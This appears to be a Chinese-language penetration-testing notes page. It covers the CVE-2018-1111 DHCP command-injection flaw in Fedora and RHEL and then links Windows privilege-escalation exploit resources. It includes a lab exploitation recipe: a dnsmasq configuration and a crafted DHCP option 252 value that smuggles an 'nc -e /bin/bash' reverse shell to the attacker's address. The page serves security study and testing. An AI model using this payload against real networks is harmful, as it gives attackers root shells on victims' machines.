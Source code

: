     Fedora 是由 Fedora 项目社区开发、美国红帽（Red Hat）公司赞助的一套基于 Linux 的操作系统。DHCP packages 是其中的一个动态主机配置协议软件包。

    Fedora 28 及之前版本、Red Hat Enterprise Linux 6 和 7 中的 DHCP 包的 NetworkManager integration 脚本存在命令注入漏洞。本地攻击者可通过伪造 DHCP 响应利用该漏洞在系统以 root 权限执行任意命令。

- 文章
    - [CVE-2018-1111 复现环境搭建与 dhcp 命令注入](https://www.freebuf.com/articles/web/191884.html)
    - [DHCP 客户端脚本代码执行漏洞分析 (CVE-2018-1111) ](https://xz.aliyun.com/t/2455)

- POC | Payload | exp
    - [knqyf263/CVE-2018-1111](https://github.com/knqyf263/CVE-2018-1111)
    - [kkirsche/CVE-2018-1111](https://github.com/kkirsche/CVE-2018-1111)

- 本地利用方法
    ```
    attacker: kali linux 2018 x64 192.168.71.5
    victim: Centos 7 x64 192.168.71.10
    ```
    ```vim
    vim dnsmasq.conf
    bind-interfaces
    interface=eth0
    except-interface=lo
    dhcp-range=192.168.71.10,192.168.71.20,12h
    dhcp-option=3,192.168.71.5
    dhcp-option=6,192.168.71.5
    log-queries
    log-facility=/var/log/dnsmasq.log
    ```
    ```
    dnsmasq -dC dnsmasq.conf --dhcp-option="252,malayke'&nc -e /bin/bash192.168.71.5 6666 #"
    nc -l -p 6666 -v
    ```
    重启 CentOS 的网络服务,然后 shell 就反弹回来了

---

# Windows

**相关资源**
- [WindowsExploits/Exploits](https://github.com/WindowsExploits/Exploits)- Windows Exploits

---

## 系统漏洞提权

**文章教程**
- https://www.fuzzysecurity.com/tutorials/16.html
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md

**提权辅助工具**
- [windows 本地提权对照表](http://www.7kb.org/138.html)
- [提权辅助网页](https://i.hacking8.com/tiquan/)
- [Windows提权EXP在线搜索工具](http://blog.neargle.com/win-powerup-exp-index/)
- [BulletinSearch-微软官网提供的漏洞 excel 列表](http://download.microsoft.com/download/6/7/3/673E4349-1CA5-40B9-8879-095C72D5B49D/BulletinSearch.xlsx)
- [GDSSecurity/Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester) - 此工具将目标修补程序级别与 Microsoft 漏洞数据库进行比较,以便检测目标上可能缺少的修补程序.
- [bitsadmin/wesng](https://github.com/bitsadmin/wesng) - Windows Exploit Suggester
- [tengzhangchao/microsoftSpider](https://github.com/tengzhangchao/microsoftSpider) - 爬取微软漏洞信息,MS 对应的每个版本操作系统 KB 号以及补丁下载地址.
- [SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits) - Windows 平台提权漏洞集合